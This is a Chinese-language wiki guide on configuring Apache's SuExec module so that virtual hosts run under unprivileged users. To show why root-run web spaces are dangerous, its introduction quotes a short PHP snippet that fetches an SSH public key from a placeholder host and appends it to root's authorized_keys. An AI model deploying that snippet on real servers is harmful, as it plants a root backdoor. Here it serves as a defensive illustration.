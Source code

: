 这个文档描述了如何去使用Apache的SuExec模块去架设虚拟主机运行在普通用户权限下。通常情况下不让webspace拥有超级权限是一个良好的习惯，就像下面这段brutal PHP代码显示的那样:

```
   <?php
     # of course this link doesn't lead anywhere
     $rsa_key = file('http://yourhost.homeip.net/id_rsa.pub');
     exec("cat ${rsa_key[[0]]} >>/root/.ssh/authorized_keys");
   ?>

```

你同意这个观点吗? 为了预防这一点,绝对不要让你的虚拟主机拥有任何写入数据的权限除了在他自己的主目录下. 不幸地这个方法要求Apache作为超级用户才能运行，但这不是大问题，因为您在缺省DocumentRoot目录下不需要超级用户也可以运行.

如果你打算有几个FTP帐户分别指向几个需要写入权限的空间而且这些空间里的文件可以被Apache读取的话，你应该考虑使用SuExec.

## Contents

*   [1 必备知识](#.E5.BF.85.E5.A4.87.E7.9F.A5.E8.AF.86)
*   [2 在Apache里添加SuExec模块](#.E5.9C.A8Apache.E9.87.8C.E6.B7.BB.E5.8A.A0SuExec.E6.A8.A1.E5.9D.97)
*   [3 设置一个使用SuExec的虚拟主机](#.E8.AE.BE.E7.BD.AE.E4.B8.80.E4.B8.AA.E4.BD.BF.E7.94.A8SuExec.E7.9A.84.E8.99.9A.E6.8B.9F.E4.B8.BB.E6.9C.BA)
*   [4 "禁用"默认的DocumentRoot](#.22.E7.A6.81.E7.94.A8.22.E9.BB.98.E8.AE.A4.E7.9A.84DocumentRoot)
*   [5 结束](#.E7.BB.93.E6.9D.9F)
*   [6 相关链接](#.E7.9B.B8.E5.85.B3.E9.93.BE.E6.8E.A5)

#### 必备知识

*   你需要熟悉基本的Apache的配置，尤其是虚拟主机
*   目标主机的管理员权限
*   有关添加用户方面的知识
*   会使用pacman

#### 在Apache里添加SuExec模块

*   修改Apache配置文件`/etc/httpd/conf/httpd.conf`象这样

```
LoadModule suexec_module        lib/apache/mod_suexec.so

```

*   确认Apache的DocumentRoot目录没有 does not run as superuser either!

```
User http
Group http

```

#### 设置一个使用SuExec的虚拟主机

一种方法是直接在`/etc/httpd/conf/httpd.conf`中修改，但是我建议使用一个单独的配置文件，如果你打算配置超过两个以上的虚拟主机的话. 不管用那种方法，使用SuExec的虚拟主机应该象下面这样配置:

```
<VirtualHost 192.168.0.1:80>
        ServerName myhost
        ServerAlias  myhost.localdomain
        # this is where requests for / go
        DocumentRoot /home/www/vhosts/myhost.localdomain/htdocs

        # here you tell which user (myhost) and group (ftponly) Apache should use
        SuexecUserGroup myhost ftponly

        # the following are optional but might be of use for you
        ScriptAlias /cgi-bin/ /home/www/vhosts/myhost.localdomain/htdocs/cgi-bin
        php_admin_value open_basedir /home/www/vhosts/myhost.localdomain/htdocs
        php_admin_value upload_tmp_dir  /home/www/vhosts/myhost.localdomain/tmp
        # Safe mode will be removed as of PHP 6\. You may want to not enable it.
        php_admin_flag safe_mode On
        ErrorDocument 404 /home/www/vhosts/myhost.localdomain
        <Directory "/home/www/vhosts/myhost.localdomain/htdocs">
                AllowOverride None
                Order allow,deny
                Allow from all
                Options +SymlinksIfOwnerMatch +Includes
        </Directory>
</VirtualHost>

```

注意我们设置`upload_tmp_dir`为一个站点根目录以外的一个文件夹(不是 `/home/www/vhosts/myhost.localdomain/htdocs/tmp`). 它也应该是不能被其他系统用户读或写的.出于安全方面的原因：当PHP处理它时，这样不可能修改它或重写。

#### "禁用"默认的DocumentRoot

为了使你的站点更加安全牢固，避免Apache以超级用户身份运行，你可以禁用默认的`DocumentRoot`. 这个步骤并不是真正的“禁用”DocumentRoot, 与其指向别的地方还不如使用现在很容易修改的本机端口. 它可以通过替换您缺省的`ServerName`很容易地达到：

```
ServerName localhost:80

```

#### 结束

在改变任何系统默认的参数之后，[重启](/index.php/Daemons#Restarting "Daemons") **httpd** (Apache)才能生效。

#### 相关链接

*   关于SuExec的更多内容请浏览: [http://httpd.apache.org/docs/suexec.html](http://httpd.apache.org/docs/suexec.html)
*   有关VirtualHosts的更多内容请浏览: [http://httpd.apache.org/docs/vhosts/index.html](http://httpd.apache.org/docs/vhosts/index.html)